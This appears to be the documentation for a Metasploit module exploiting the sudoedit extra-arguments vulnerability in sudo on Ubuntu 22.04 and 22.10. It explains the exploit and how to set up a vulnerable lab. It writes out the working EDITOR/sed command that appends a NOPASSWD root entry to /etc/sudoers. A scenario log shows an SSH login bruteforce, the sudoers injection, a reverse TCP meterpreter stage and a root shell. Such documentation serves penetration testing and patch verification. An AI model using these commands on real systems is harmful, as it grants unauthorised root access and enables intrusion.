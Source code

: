 ## Vulnerable Application

This exploit takes advantage of a vulnerability in sudoedit, part of the sudo package.
The sudoedit (aka sudo -e) feature mishandles extra arguments passed in the user-provided
environment variables (SUDO_EDITOR, VISUAL, and EDITOR), allowing a local attacker to
append arbitrary entries to the list of files to process. This can lead to privilege escalation.
by appending extra entries on /etc/sudoers allowing for execution of an arbitrary payload with root
privileges.

Affected versions are 1.8.0 through 1.9.12.p1. However THIS module only works against Ubuntu
22.04 and 22.10.

This module was tested against sudo 1.9.9-1ubuntu2 on Ubuntu 22.04, and
1.9.11p3-1ubuntu1 on Ubuntu 22.10.

### Exploit Breakdown

This exploit works by first identifying what file can be edited via `sudo -l`.  The `-S` flag
is also required or sudo may complain about not being in a proper tty environment, so `-S` specifies
to allow password input via stdin (although we never provide a password).

Next we make a new entry in `/etc/sudoers`.  In theory we could specify something similar to `"$USER ALL=(ALL:ALL) ALL"`
which many of the PoCs do, however we can be more surgical.  In this case, we don't specify the payload as most
Metasploit exploits would, but actually a shell (`/bin/sh` by default), as `sudo` doesn't play well with `&`.
We also add a flag at the end of our entry after a `#` (comment) for ease of erasing later.

Next we execute out payload, launching it through our shell.

Many of the PoCs work via user input where you have to manually edit `/etc/sudoers`. Obviously this strategy
won't work with Metasploit, as we need to automate it. Early attempts tried to script `vi` into performing
the write and quite command, similar to:
```EDITOR="vi -c ':$' -c ':s/$/\\r`whoami` ALL=(ALL:ALL) ALL/' -c ':wq'  -c ':q' -- /etc/sudoers" sudo -e /etc/motd```
However, the command didn't do well with newlines and escaping.

`sed` however is a valid editor, so it was relatively trivial to script out adding the new entry via sed:
```EDITOR="sed -i -e '$ a `whoami` ALL=(ALL:ALL) NOPASSWD: ALL' -- /etc/sudoers" sudo -e /etc/motd```

#### Results from other OSes

Most of the errors are similar to:

```
[*] Executing command: EDITOR="sed -i -e '$ a `whoami` ALL=(ALL:ALL) NOPASSWD: /bin/sh # 2Iq0tUAqsqtn' -- /etc/sudoers" sudo -S -e /etc/motd
[*] sudo: --: editing files in a writable directory is not permitted
[*] sed: -e expression #1, char 1: unknown command: `''
```

### Install

#### On Ubuntu 22.10:

```
https://mirrors.wikimedia.org/ubuntu/ubuntu/pool/main/s/sudo/sudo_1.9.11p3-1ubuntu1_amd64.deb
sudo dpkg -i sudo_1.9.11p3-1ubuntu1_amd64.deb
```

Follow the 22.04 instructions, after installing the deb package, to configure the host.

#### On Ubuntu 22.04:

```
wget http://security.ubuntu.com/ubuntu/pool/main/s/sudo/sudo_1.9.9-1ubuntu2_amd64.deb
sudo dpkg -i sudo_1.9.9-1ubuntu2_amd64.deb
```

Now add an entry to `/etc/sudoers` for an editable file, in this case we use `/etc/motd`.
Change 'user' for whatever user you want to be able to exploit this:

```
user ALL=(root) NOPASSWD: sudoedit /etc/motd
```

Now test this by running `sudo -l` and you should see:

```
User <user> may run the following commands on <system>:
    (ALL : ALL) ALL
    (root) NOPASSWD: sudoedit /etc/motd
```

Noting the entry at the bottom to `/etc/motd`

## Verification Steps

1. Install the application
2. Get an initial shell
3. Do: `use exploit/linux/local/sudoedit_bypass_priv_esc`
4. Do: `set session [session]`
5. Do: `run`
6. You should get a root shell.

## Options

### EDITABLEFILE

The file which can be edited via `sudoedit`. An attempt to auto detect this is made, so it is only required
if auto detection fails.

### SHELL

Which shell to use. Defaults to `/bin/sh`

### TIMEOUT

The amount of time to wait for a `sudo` command to respond. Defaults to `5`.


## Scenarios

### Sudo 1.9.9-1ubuntu2 on Ubuntu 22.04

```
[*] Processing sudoedit.rb for ERB directives.
resource (sudoedit.rb)> use auxiliary/scanner/ssh/ssh_login
resource (sudoedit.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (sudoedit.rb)> set username ubuntu
username => ubuntu
resource (sudoedit.rb)> set password ubuntu
password => ubuntu
resource (sudoedit.rb)> run
[*] 1.1.1.1:22 - Starting bruteforce
[+] 1.1.1.1:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd) Linux ubuntu2204 5.15.0-48-generic #54-Ubuntu SMP Fri Aug 26 13:26:29 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (2.2.2.2:46613 -> 1.1.1.1:22) at 2023-04-25 18:46:03 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (sudoedit.rb)> use exploit/linux/local/sudoedit_bypass_priv_esc
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
resource (sudoedit.rb)> set session 1
session => 1
resource (sudoedit.rb)> set verbose true
verbose => true
resource (sudoedit.rb)> exploit
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: 
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] sudo version 1.9.9.pre.1ubuntu2 is vulnerable
[+] The target is vulnerable. Sudo 1.9.9.pre.1ubuntu2 is vulnerable, can edit: /etc/motd
[*] Writing '/tmp/.LImVy' (250 bytes) ...
[*] Max line length is 65537
[*] Writing 250 bytes in 1 chunks of 735 bytes (octal-encoded), using printf
[*] Adding user to sudoers
[*] Executing command: EDITOR="sed -i -e '$ a `whoami` ALL=(ALL:ALL) NOPASSWD: /bin/sh # SbccIOwAiK1i' -- /etc/sudoers" sudo -S -e /etc/motd
[+] Likely successful exploitation, detected possitive error message: editing files in a writable directory is not permitted
[*] sudo: --: editing files in a writable directory is not permitted
[*] Spawning payload
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 1.1.1.1
[-] Manual cleanup is likely required, please run: sed -i '/# SbccIOwAiK1i/d' /etc/sudoers
[*] Meterpreter session 2 opened (2.2.2.2:4444 -> 1.1.1.1:57426) at 2023-04-25 18:46:25 -0400

(Meterpreter 2)(/home/ubuntu) > getuid
Server username: root
(Meterpreter 2)(/home/ubuntu) > sysinfo
Computer     : 1.1.1.1
OS           : Ubuntu 22.04 (Linux 5.15.0-48-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 2)(/home/ubuntu) > 
```
